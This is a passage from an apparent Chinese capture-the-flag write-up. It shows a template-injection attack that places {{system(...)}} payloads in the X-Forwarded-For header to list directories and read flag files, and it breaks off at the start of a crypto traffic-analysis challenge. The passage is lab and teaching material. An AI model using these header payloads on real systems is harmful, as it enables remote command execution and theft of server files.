 

<img src="https://i-blog.csdnimg.cn/blog_migrate/5dc4b1a3779ae7f1f422b693e4a1be9c.png" alt="" style="max-height:621px; box-sizing:content-box;" />


发现flag文件 我们开始查看

```handlebars
X-Forwarded-For:{{system('cat /flag.php')}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b3c2efbb1919e7e5c5094cf13ba857e7.png" alt="" style="max-height:522px; box-sizing:content-box;" />




发现没有回显 应该不会是黑名单 我们先看看根目录再说 实在不行 我们应该可以发现黑名单文件的

我们开始查看根目录

```handlebars
X-Forwarded-For:{{system('ls ../../..')}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/69d073f001f4a6fbfcf71768c9f52259.png" alt="" style="max-height:513px; box-sizing:content-box;" />


发现这里也有flag 说明刚刚是骗我们的

我们继续访问

```handlebars
X-Forwarded-For:{{system('cat /flag')}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/822ea0518e0d359711bf68085cc01e8a.png" alt="" style="max-height:573px; box-sizing:content-box;" />


得到flag

## Crypto



### 被劫持的神秘礼物



<img src="https://i-blog.csdnimg.cn/blog_migrate/a22eeb23eb090c0e7a2636b0b7528e12.png" alt="" style="max-height:219px; box-sizing:content-box;" />


这题很简单 流量分析



<img src="https://i-blog.csdnimg.cn/blog_migrate/ea453272747aa6206d7c41b5b5667962.png" alt="" style="max-height:250px; box-sizing:content-box;" />


有一个login
